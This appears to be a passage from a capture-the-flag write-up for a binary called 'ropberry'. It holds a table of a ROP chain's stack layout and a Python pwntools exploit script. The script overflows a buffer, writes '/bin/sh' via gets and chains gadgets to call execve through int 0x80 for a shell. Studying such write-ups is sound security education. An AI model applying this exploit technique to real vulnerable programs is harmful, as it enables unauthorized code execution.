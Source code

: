 	<tr><td>return address for vuln ( gets )</td></tr>
	<tr><td>return address for gets ( pop_ret )</td></tr>
	<tr><td>argv[1] for gets ( writeable_space )</td></tr>
	<tr><td>return address for pop_ret ( pop_ebx_ret )</td></tr>
	<tr><td>ebx >> argv[1] for system ( writable space )</td></tr>
	<tr><td>return address for pop_ebx_ret ( pop_ecx_ret )</td></tr>
	<tr><td>ecx >> argv[2] for system ( 0 )</td></tr>
	<tr><td>return address for pop_ecx_ret ( pop_edx_ret )</td></tr>
	<tr><td>edx >> argv[3] for system ( 0 )</td></tr>
	<tr><td>return address for pop_edx_ret ( pop_eax_ret )</td></tr>
	<tr><td>eax >  system interrupt code ( 11 [execve] )</td></tr>
	<tr><td>return address for pop_eax_ret ( int 0x80 )</td></tr>
</table>

### 1-4. Exploit
exploit code:
```python
from pwn import *
#context.log_level='debug'

bin = ELF('./ropberry')
gets = bin.symbols['gets']

#heap address
buffer = 0x80ef000 + 20

binsh = '/bin/sh'

#gadets
popret = 0x80481ec
int80 = 0x08059d6f
popeax = 0x080c1906
popebx = 0x080c28f9
popecx = 0x080e394a
popedx = 0x0805957a

#payload
payload = 'a'*(0x4+4)
payload += p32(gets) + p32(popret) + p32(buffer)
payload += p32(popebx) + p32(buffer) + p32(popecx) + p32(0) + p32(popedx) + p32(0) + p32(popeax) + p32(11) + p32(int80)

#open process
p = process(bin.path)

#read input prompt
print p.recvn(0x2d)

#gdb.attach(proc.pidof(p)[0],'b *vuln')

p.sendline(payload)
p.sendline(binsh)

p.interactive()
```
